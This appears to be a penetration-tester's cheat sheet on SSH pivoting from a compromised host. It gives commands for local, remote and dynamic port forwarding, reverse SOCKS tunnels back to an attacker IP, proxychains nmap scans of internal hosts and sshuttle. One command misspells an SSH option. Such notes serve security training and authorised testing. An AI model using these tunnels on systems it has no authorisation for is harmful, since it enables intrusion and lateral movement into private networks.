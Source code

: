 # SSH Forwarding

## Local Port Forwarding

**Forwarding a port from attackers machine to a port on the compromised machine to access a specific port of a target host in the internal network.**

{% hint style="info" %}
No root access needed on compromised machine.
{% endhint %}

#### run this command on your attacking machine:

```text
ssh -N -L localhost:localport:targethost:targetport [username@middlehost]
```

* localhost : attackers machine local ip address, usually use 0.0.0.0 for all interfaces.
* local port : port on attackers machine, will be used for connection later
* target host / port : ip and port of the target machine inside the internal network that we want to access
* middlehost : the compromised machine that is going to be used as a pivot  point.

{% hint style="warning" %}
**If you are targeting a specific protocol like SMB, all port numbers should be the same**.
{% endhint %}

#### example for smb port 445:

```text
ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128
```

test the connection:

```text
nmap  127.0.0.1 -p 445
```

## Remote Port Forwarding

#### The reverse of local port forwarding. a port is opened on the compromised remote machine and the traffic sent to that port is forwarded to attackers local port \(ssh client\).

{% hint style="danger" %}
**SSH port forwards can be run as non-root users as long as we only bind unused non-privileged local ports \(above 1024\).**

SSH configurations on the attacker machine must allow remote connection to the given user and you have to enter the user password so **don't use the root account on your machine if you don't trust the middle host.**

**I will explain how to secure remote port forwarding connections in a bit.**
{% endhint %}

#### Run this command on the middle host \(compromised target\).

```text
ssh -N -R attackerhost:attackerport:middlehost:middleport [username@attackerhost]
```

{% hint style="info" %}
Port numbers don't have to be the same here. 
{% endhint %}

example for MySQL service port 3306:

```text
ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

test from attacker machine:

```text
nmap -sV 127.0.0.1 -p 2221
```

### Secure Remote Port Forwarding

In situations when you dont trust the middle host \(compromised pivot machine\) its a huge risk to your security if you use the root account or enter the password in the ssh connection. also if you are running the command in a non-interactive shell you will run into a hurdle .

#### to avoid entering our password and having problems wtih non-interactive shells we can use a few ssh command options.

#### first create a pair of ssh keys to use instead of plain-text password:

```text
# on compromised middle host enter:

mkdir keys
cd keys
ssh-keygen
```

#### now the new public key needs to be entered in our attacker host’s authorized\_keys file for the attacker user:

```text
# on compromised middle host enter:
cat id_rsa.pub

# copy the public key to your kali machine authorized_keys file with the security options
```

#### To avoid potential security issues we can tighten the ssh configuration only permitting access coming from the middle host IP, then we need to ignore any commands that the user supplies with ssh command options. we also need to prevent agent and x11 forwarding with no-agent-forwarding and no-x11-forwarding options. finally we want to prevent the user from being allocated a tty device with the no-tty option

the final **`~/.ssh/authorized_keys`** file on attacker machine will be like this:

![](../../.gitbook/assets/image%20%28265%29.png)

#### This entry allows the owner of the private key \(middle host\) to log in to our Kali machine but prevents them from running commands and only allows for port forwarding.

then we have to add some more ssh options:

**-f :** go to background

**-N :** not running commands

**UserKnownHostsFile=/dev/null :** prevent ssh from attempting to save the host key by sending the output to /dev/null

**StrictHostKeyChecking=no** : don't prompt us to accept the host key

#### the final ssh command:

```text
ssh -f -N -R attackerhost:attackerport:middlehost:middleport -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i keys/id_rsa user@attackerhost
```

## Dynamic Forwarding

#### Allows us to set a local listening port and have it tunnel incoming traffic to any remote destination through the use of a proxy. this way we can use all of the ports from the pivot machine.

{% hint style="warning" %}
For this technique to work, we need proxychains or other proxy tools.
{% endhint %}

the syntax is like this:

```text
ssh -N -D <attackerhost>:<attackerport> <username>@<middle host>
```

#### With the above syntax in mind, we can create a local SOCKS4 application proxy \( -N -D \) on our attacker machine on TCP port 8080 \( 127.0.0.1:8080 \), which will tunnel all incoming traffic to any host in the target network, through the compromised pivot machine, which we log into.

example:

```text
sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
```

#### Now we must somehow direct our reconnaissance and attack tools to use this proxy. We can run any network application through HTTP, SOCKS4, and SOCKS5 proxies with the help of ProxyChains.

#### we simply edit the main configuration file  `/etc/proxychains.conf` and add our SOCKS4 proxy to it:

![](../../.gitbook/assets/image%20%28264%29.png)

{% hint style="warning" %}
Make sure that there are no ther proxy IPs in proxychains config file and the specified port is the same as the port in the SSH command.
{% endhint %}

{% hint style="info" %}
By default, ProxyChains will attempt to read its configuration file first from the current directory, then from the user’s $\(HOME\)/.proxychains directory, and finally from /etc/proxychains.conf. This allows us to run tools through multiple dynamic tunnels, depending on our needs. we can use the -f options with proxychains to specify the path to the configuration file we want to use.
{% endhint %}

#### To run our tools through our SOCKS4 proxy, we prepend each command with proxychains

```text
proxychains nmap -sT -Pn -n 192.168.1.110  # must use -sT option
```

{% hint style="warning" %}
**In a dynamic port forwarding we have to use -sT option with nmap to run a full TCP connect scan. other scan methods dont work since we are using a proxy.**
{% endhint %}

## Reverse Dynamic Forwarding

#### as of OpenSSH version 7.6 \(Released late 2017\) SSH clients may generate dynamic reverse tunnels accessible to the server they connect to. What’s really cool is that you don’t need to update your server to version 7.6 before this trick will work. As long as the client supports it, the client enforces it when it completes the connection.

run this command on the compromised remote system \(this looks like the remote port forwarding but by not specifying a host after the port the ssh client will create a socks proxy on attackers system\):

```text
ssh -f -N -R [attackers port] -o "UserKnownHostsFile=/dev/null" -o "StricktHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa   user@[attackers IP]
```

you can check if the port is open on attackers system:

```text
netstat -tupln
# look for sshd with local address of 127.0.0.1:[attackers port]
```

​​now edit proxychains configs in /etc/proxychains.conf and add the port:

```text
socks4 127.0.0.1 [attackers port]
```

now a stable tunnel is established and we can use proxychains for enumeration and connection:

```text
proxychains nmap -sT -Pn [target local IP]
```

{% hint style="warning" %}
SOCKS proxy needs full TCP connection, we cant use other scanning techniques, ICMP can not get through either. use -Pn option.
{% endhint %}

## SSHuttle

```text
# Transparent proxy over SSH

# Forwarding traffic through the pivot
# It will then auto create necessary iptables rules
sshuttle -r user@pivoting_machine x.x.x.x/24

# You can also let sshuttle detect networks based on the target
# -x == exclude some network to not transmit over the tunnel
sshuttle -vNr user@pivoting_machine -x x.x.x.x.x/24
```



